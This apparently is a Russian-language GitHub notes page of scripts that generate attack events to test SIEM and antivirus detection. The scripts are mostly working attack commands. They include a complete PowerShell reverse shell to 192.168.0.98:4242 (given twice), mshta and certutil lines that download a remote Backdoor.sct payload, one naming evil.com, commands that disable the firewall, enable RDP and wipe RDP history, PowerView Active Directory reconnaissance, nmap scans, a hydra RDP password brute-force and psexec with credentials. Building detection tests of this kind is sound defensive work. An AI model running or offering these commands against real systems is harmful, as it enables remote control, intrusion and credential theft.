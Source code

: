 Скрипт для генерации событий о разных видах enumaration АРМов не в домене.
```bat
@echo off
# Enumarate user prive/group
whoami
whoami /priv
whoami /groups
# Enumarate users, groups
net user 
net localgroup 
# Enumarate firewall, AV solutions
sc query windefend
sc queryex type= service
netsh advfirewall firewall dump
netsh firewall show state
netsh firewall show config
# Enumarate network
ipconfig
# Disable/enable firewall
netsh advfirewall set allprofiles state off
netsh advfirewall set allprofiles state on
# Turn on remote connection
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
# Clear last rdp connection from registry
reg delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default" /va /f
reg delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers" /f
reg add "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers"
# Fast create and delete local user
net user test 12345 /add
net user test /delete
# Simulate delete home user directory 
mkdir C:\Users\test
rd /s /q "C:\Users\test"
```

Скрипт для генерации событий о реакции на малварь AV.
```bat
@echo off
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.168.0.98",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
mshta https://gist.githubusercontent.com/enigma0x3/469d82d1b7ecaf84f4fb9e6c392d25ba/raw/6cb52b88bcc929f5555cd302d9ed848b7e407052/Backdoor.sct
certutil.exe -urlcache -f https://gist.githubusercontent.com/enigma0x3/469d82d1b7ecaf84f4fb9e6c392d25ba/raw/6cb52b88bcc929f5555cd302d9ed848b7e407052/Backdoor.sct evil.com
```
Отключение AV. После отключения AV SIEM должна сгенерировать инцидент оботключении AV. Повторный запуск тестовой малвари для генерации событий о небезопасных утилитах из cmd. 
```bat
@echo off
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.168.0.98",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
mshta https://gist.githubusercontent.com/enigma0x3/469d82d1b7ecaf84f4fb9e6c392d25ba/raw/6cb52b88bcc929f5555cd302d9ed848b7e407052/Backdoor.sct
certutil.exe -urlcache -f https://gist.githubusercontent.com/enigma0x3/469d82d1b7ecaf84f4fb9e6c392d25ba/raw/6cb52b88bcc929f5555cd302d9ed848b7e407052/Backdoor.sct evil.com
# Можно запустить WinPEAS для генерации события о выгрузке в консоль чувствительной информации о системе.
```

P.S.
Для тестирования учётки AD на АРМ должен быть установлен RSAT или импортировать Microsoft.ActiveDirectory.Management.dll в powershell (будет доступа часть командлетов связанных с AD), большая часть отработает с ошибками, что породит инциденты о разведке привилегий. Запуск с контроллера домена выдаст больше выхлопа.

```bat
Import-Module .\Microsoft.ActiveDirectory.Management.dll

Get-ADGroup -Filter *
Get-ADGroup -Filter {Name -like "admin"} | select name, GroupScope
Get-ADDomain
Get-ADForest
Get-ADTrust -Filter *


Get-DomainPolicy
Get-NetDomain
Get-DomainSID
Get-NetDomainController
Get-NetUser
Get-NetComputer
Get-NetComputer -Ping
Get-NetGroup
Get-NetGroup *admin*
Get-NetGroupMember -GroupName "Domain Admins"
Invoke-ShareFinder
Get-NetGPO -ComputerName client-02.fanzy.com
Find-GPOLocation -UserName Aziz
Get-NetOU
Get-NetDomainTrust
Get-NetForest
Get-NetForest -Forest dampy.com
Get-NetForestDomain
Get-NetForestCatalog
Get-NetForestTrust
Find-LocalAdminAccess
Invoke-EnumerateLocalAdmin
Invoke-UserHunter
Invoke-UserHunter -CheckAccess
Get-ObjectAcl -SamAccountName "users" -ResolveGUIDs
Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}
Get-ObjectAcl -SamAccountName labuser -ResolveGUIDs -RightsFilter "ResetPassword"
```

P.S.S.
С атакующего компа можно побрутить, посканить порты, позапускать psexec.

```bash
nmap -A -p- -T4 192.168.23.56(Блокируется фаерволом, но нет инцидента в винде)
nmap -Pn -p- -T4 192.168.23.56 (Нет инцидента о сборе инфы)

hydra rdp://192.168.23.56 -l admin -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords.txt

psexec \\192.168.99.56 -s -u администратор -p 12345 cmd.exe и whoami
```

